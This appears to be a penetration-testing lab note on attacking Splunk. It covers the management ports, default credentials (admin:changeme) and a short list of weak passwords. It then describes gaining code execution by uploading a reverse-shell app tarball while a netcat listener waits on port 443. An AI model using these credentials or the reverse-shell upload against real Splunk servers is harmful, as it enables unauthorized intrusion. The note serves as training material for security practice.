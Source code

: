 
- Splunk is often used for security monitoring and business analytics. 
- Splunkd httpd service on port 8000 and port 8089, the Splunk management port for communication with the Splunk REST API.
- The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.
- https://www.cvedetails.com/vulnerability-list/vendor_id-10963/Splunk.html

## Enumeration

- On older versions of Splunk, the default credentials are admin:changeme, which are conveniently displayed on the login page.
- Weak creds: admin, Welcome, Welcome1, Password123

## Attacking

**Code Execution**

- Shell:`https://github.com/0xjpuff/reverse_shell_splunk/tree/master`

```
L3pr3ch4un@htb[/htb]$ tree splunk_shell/splunk_shell/
├── bin
└── default

2 directories, 0 files
```

- The bin directory will contain any scripts that we intend to run
- default directory will have our inputs.conf file.

`L3pr3ch4un@htb[/htb]$ tar -cvzf updater.tar.gz splunk_shell/`

`sudo nc -lnvp 443`

![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FNF4Wpa0IBpoT3qGHQUaM%2Fimage.png?alt=media&token=0d3a9f55-b800-4c67-92de-0c1a38bdbbe0)

On the Upload app page, click on browse, choose the tarball we created earlier and click Upload.


